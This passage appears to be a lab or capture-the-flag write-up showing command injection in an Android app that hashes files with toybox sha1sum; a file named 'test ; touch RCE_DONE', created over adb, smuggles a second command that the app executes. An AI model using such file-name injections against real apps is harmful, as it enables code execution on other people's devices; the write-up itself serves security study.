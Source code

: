 **To achieve RCE (Remote Code Execution):**

- We can inject a command separator (like `;` or `&&`) after the file name so that the additional command gets executed right after calculating the SHA-1 hash.
    
- Then, we check whether our injected command was actually executed
```bash
adb shell
cd  /storage/emulated/0
cd Documents 
echo hello > "test ; touch RCE_DONE"
```
![](/assets/img/attachments/cyclic-2.png)
The first time the app scanned the file we created, the injected command was executed as expected, resulting in the creation of a file named `RCE_DONE`. As shown in the second scan, the app also scanned this newly created file.

![](/assets/img/attachments/cyclic-3.png)
And Exploited! 
for clarification the command when it executed was like 
```bash
toybox sha1sum /storage/emulated/0/Documents/test ; touch RCE_DONE
```
